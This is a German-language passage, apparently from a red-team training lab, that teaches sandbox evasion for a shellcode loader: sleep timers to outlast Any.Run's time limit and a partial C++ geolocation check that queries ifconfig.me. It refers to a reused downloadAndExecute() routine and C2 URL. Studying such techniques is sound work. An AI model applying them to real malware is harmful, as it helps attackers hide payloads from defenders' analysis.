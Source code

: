![2024-07-31-cce67bc687e464e7ac65617233fe2c78.png](Bilder/2024-07-31-cce67bc687e464e7ac65617233fe2c78.png)

Herzlichen Glückwunsch! Wir haben erfolgreich unsere erste Sandbox-Evasionstechnik erstellt. Auch wenn es sich um eine einfache Technik handelt, ist sie unglaublich mächtig und hat uns ermöglicht, die einminütige Zeitgrenze von Any.Run zu umgehen. Wie im letzten Task erwähnt, kann diese Methode aufgrund verschiedener Blogposts, die zeigen, dass Blue Teamers Techniken zum Umgehen von Schlaf-Timern erstellen können, möglicherweise nicht immer funktionieren. Eine bessere Implementierung wäre es, Rechenzeit durch aufwendige mathematische Berechnungen zu verschwenden.

### Geolocation-Filterung

Als nächstes werden wir eine Methode zur Umgehung der Ausführung unseres Shellcodes in einer Sandbox nutzen: Geolocation-Blockaden. Glücklicherweise können wir einen Großteil des Codes, der bereits für uns geschrieben wurde, wiederverwenden. Teile der Funktion „downloadAndExecute()“ können wiederverwendet werden. Wir werden die folgenden Komponenten wiederverwenden:

- Website-URL (ehemals die Variable `c2URL`)
- Internet-Stream (ehemals die Variable `stream`)
- String-Variable (ehemals die Variable `s`)
- Pufferspeicher (ehemals die Variable `Buff`)
- Bytes gelesen (ehemals die Variable `unsigned long bytesRead`)
- Schließlich die Funktion [`URLOpenBlockingStreamA`](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/ms775127(v=vs.85))

**Integration in unseren Code**

Das übersetzt sich in eine tatsächliche Funktion wie folgt:

```cpp
BOOL checkIP() {   
    // Deklariere die Website-URL, die wir besuchen möchten
    const char* websiteURL = "<https://ifconfig.me/ip>";   
    // Erstelle einen Internet-Stream zum Zugriff auf die Website
    IStream* stream;   
    // Erstelle eine String-Variable, in der wir die von der Website empfangenen Daten speichern
    string s;   
    // Erstelle einen Speicherplatz, in dem wir unsere IP-Adresse speichern
    char buff[35];   
    unsigned long bytesRead;   
    // Öffne einen Internet-Stream zur Remote-Website
    URLOpenBlockingStreamA(0, websiteURL, &stream, 0, 0);   
    // Solange Daten vom Webserver gesendet werden, schreibe sie in den Speicher
    while (true) {       
        stream->Read(buff, 35, &bytesRead);       
```